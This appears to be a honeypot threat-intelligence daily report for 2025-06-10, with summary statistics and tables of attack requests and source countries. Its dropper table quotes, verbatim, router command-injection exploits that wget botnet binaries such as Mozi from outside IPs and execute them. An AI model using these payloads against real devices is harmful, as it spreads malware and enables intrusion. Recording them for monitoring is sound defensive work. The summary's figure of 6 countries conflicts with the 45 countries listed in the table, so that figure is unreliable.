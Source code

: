 ```yaml
---
title: "Report: 2025-06-10 "
date: 2025-06-10
desciption: "Report: 2025-06-10" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-10 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 6 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 984 requests were recorded during the day, originating from 6 different countries, with a peak of 226 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| KR               | Germany            |
| FR               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.230.66.2    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.2:10582/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                           |
| 176.65.148.236 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20fghe3tj.arm7%3B%20wget%20http%3A%2F%2F209.141.39.243%2F010100110101010%2Ffghe3tj.arm7%3B%20chmod%20777%20fghe3tj.arm7%3B%20.%2Ffghe3tj.arm7%20router HTTP/1.1                                                                                              |
| 77.239.213.209 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                           |
| 87.121.84.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                                            |
| 195.3.221.137  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                                            |
| 141.98.11.147  | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  45 |                     3 | JDWP-Handshake                                             |
| 152 |                     1 | \x00\x0E8i\xE9\xEF)\xC4\xF3                                |
| 159 |                     1 | \x00\x0E8\x81?\x1AT\x15\xD8\xC4E\x00\x00\x00\x00\x00       |
| 210 |                     1 | \x00\x0E8\x8A\x1C\xDC\xD5\xEAk\xBB\xDB\x00\x00\x00\x00\x00 |
| 229 |                     1 | GET /socket.io/1/?t=1749516403273 HTTP/1.1                 |
| 268 |                     1 | \x00\x0E8\xED\xAF\xE6\x8DZdZ\x9D\x00\x00\x00\x00\x00       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   226 | US                 |
|  1 |                   109 | BG                 |
|  2 |                    97 | DE                 |
|  3 |                    75 | NL                 |
|  4 |                    73 | IN                 |
|  5 |                    60 | JP                 |
|  6 |                    54 | LT                 |
|  7 |                    42 | AU                 |
|  8 |                    34 | CA                 |
|  9 |                    33 | FR                 |
| 10 |                    32 | HK                 |
| 11 |                    25 | PL                 |
| 12 |                    17 | NG                 |
| 13 |                    13 | SC                 |
| 14 |                    10 | SG                 |
| 15 |                     9 | HU                 |
| 16 |                     7 | GB                 |
| 17 |                     7 | KR                 |
| 18 |                     6 | IL                 |
| 19 |                     6 | ZA                 |
| 20 |                     6 | CN                 |
| 21 |                     4 | BE                 |
| 22 |                     3 | RU                 |
| 23 |                     3 | IR                 |
| 24 |                     3 | PT                 |
| 25 |                     3 | CH                 |
| 26 |                     3 | KZ                 |
| 27 |                     2 | ES                 |
| 28 |                     2 | BD                 |
| 29 |                     2 | AO                 |
| 30 |                     2 | KW                 |
| 31 |                     2 | IE                 |
| 32 |                     2 | AE                 |
| 33 |                     1 | BR                 |
| 34 |                     1 | TR                 |
| 35 |                     1 | MX                 |
| 36 |                     1 | GH                 |
| 37 |                     1 | AR                 |
| 38 |                     1 | IT                 |
| 39 |                     1 | ID                 |
| 40 |                     1 | TW                 |
| 41 |                     1 | SE                 |
| 42 |                     1 | PA                 |
| 43 |                     1 | PE                 |
| 44 |                     1 | UA                 |
